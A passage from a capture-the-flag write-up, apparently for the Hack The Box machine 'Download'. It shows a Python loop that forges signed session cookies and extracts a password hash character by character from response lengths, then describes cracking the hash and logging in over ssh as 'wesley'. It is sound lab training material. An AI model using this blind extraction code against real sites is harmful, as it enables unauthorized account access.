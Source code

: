 ```python
	sig = output.split("download_session.sig=")[1]
	sig = sig.split("\x1b")[0]
	return jwt,sig

for i in range(32):
	for c in chars:
		test = password + c
		jwt, sig = generate(test)
		cookie = {"download_session": jwt, "download_session.sig": sig}
		r = requests.get('http://download.htb/home/', cookies=cookie)
		if len(r.text) != 2174:
			print(f"Found char: {c}")
			password += c
			print(password)
			break

print(password)
```

This would slowly print out a hash value:

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

When we get the full hash, we can take it to CrackStation to crack it and then use that same password to `ssh` in as `wesley`!

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>
